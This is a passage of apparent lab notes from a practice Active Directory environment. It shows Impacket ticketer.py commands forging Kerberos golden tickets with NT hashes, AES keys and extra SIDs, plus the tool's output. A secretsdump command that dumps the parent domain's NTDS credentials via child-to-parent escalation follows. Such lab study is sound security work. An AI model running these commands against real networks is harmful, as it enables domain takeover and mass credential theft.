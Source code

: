 
`ticketer.py -nthash 34b24f1a67d914d8ef876f8bd02f3f0b -domain-sid S-1-5-21-58534182-3680670537-1634125476 -domain north.sevenkingdoms.local -extra-sid S-1-5-21-3848810514-1890589760-83533814 goldenuser`

```
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[*] Creating basic skeleton ticket and PAC Infos
/home/kali/.local/bin/ticketer.py:141: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  aTime = timegm(datetime.datetime.utcnow().timetuple())
[*] Customizing ticket for north.sevenkingdoms.local/goldenuser
/home/kali/.local/bin/ticketer.py:600: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  ticketDuration = datetime.datetime.utcnow() + datetime.timedelta(hours=int(self.__options.duration))
/home/kali/.local/bin/ticketer.py:718: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  encTicketPart['authtime'] = KerberosTime.to_asn1(datetime.datetime.utcnow())
/home/kali/.local/bin/ticketer.py:719: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  encTicketPart['starttime'] = KerberosTime.to_asn1(datetime.datetime.utcnow())
[*] 	PAC_LOGON_INFO
[*] 	PAC_CLIENT_INFO_TYPE
[*] 	EncTicketPart
/home/kali/.local/bin/ticketer.py:843: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  encRepPart['last-req'][0]['lr-value'] = KerberosTime.to_asn1(datetime.datetime.utcnow())
[*] 	EncAsRepPart
[*] Signing/Encrypting final ticket
[*] 	PAC_SERVER_CHECKSUM
[*] 	PAC_PRIVSVR_CHECKSUM
[*] 	EncTicketPart
[*] 	EncASRepPart
[*] Saving ticket in goldenuser.ccache
```



Parent domain NTDS
`secretsdump -k -no-pass -just-dc-ntlm north.sevenkingdoms.local/goldenuser@kingslanding.sevenkingdoms.local   `

### Working Golden Ticket

`ticketer.py -aesKey badd865cdb6de2c5ee6e1d2baa1e02ff52b2bee490a90f1ee3d2624ad9aa9580 -domain-sid S-1-5-21-58534182-3680670537-1634125476 -extra-pac -domain north.sevenkingdoms.local -user-id 1111 eddard.stark`
